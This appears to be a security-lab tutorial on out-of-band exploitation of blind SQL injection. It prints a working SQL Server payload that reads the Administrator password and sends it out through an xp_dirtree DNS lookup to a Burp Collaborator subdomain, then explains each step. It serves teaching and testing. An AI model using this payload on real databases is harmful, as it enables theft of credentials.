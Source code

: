 **Out-of-Band Application Security Testing (OAST)** is a powerful technique for detecting and exploiting **blind SQL injection vulnerabilities**, particularly when in-band methods are not effective or visible.

---

### 🧪 Confirming Out-of-Band Interactions

Once you've confirmed the ability to trigger **out-of-band (OOB)** interactions (e.g., via DNS lookups), you can use this channel to **exfiltrate sensitive data** from the vulnerable application.

```sql
/cod';
DECLARE @p VARCHAR(1024);
SET @p = (SELECT password FROM users WHERE username = 'Administrator');
EXEC('master..xp_dirtree "//' + @p + '.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

- 🧵 How It Works
    
    ### 🧨 Full Payload:
    
    ```sql
    '; 
    declare @p varchar(1024);
    set @p=(SELECT password FROM users WHERE username='Administrator');
    exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
    ```
    
    ### 🧵 Step-by-Step Breakdown:
    
    1. **`';`**
        
        Closes the previous SQL query (typical SQL injection start).
        
    2. **`declare @p varchar(1024);`**
        
        Declares a variable `@p` to hold the password value.
        
    3. **`set @p=(SELECT password FROM users WHERE username='Administrator');`**
        
        Sets `@p` to the Administrator's password from the `users` table.
        
    4. **`exec('master..xp_dirtree "//'+@p+'.<unique-subdomain>.burpcollaborator.net/a"')`**
        - Dynamically builds and executes a command using SQL Server's `xp_dirtree`, a stored procedure that lists the contents of a directory.
        - In this case, it tries to access a network share:
            
            `\\<password>.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net\a`
            
        - This causes SQL Server to **attempt a DNS/SMB request to that domain** with the password embedded in the subdomain.
    5. **`-`**
        
        Comments out the rest of the original SQL query to avoid syntax errors.
        
    
    ---
    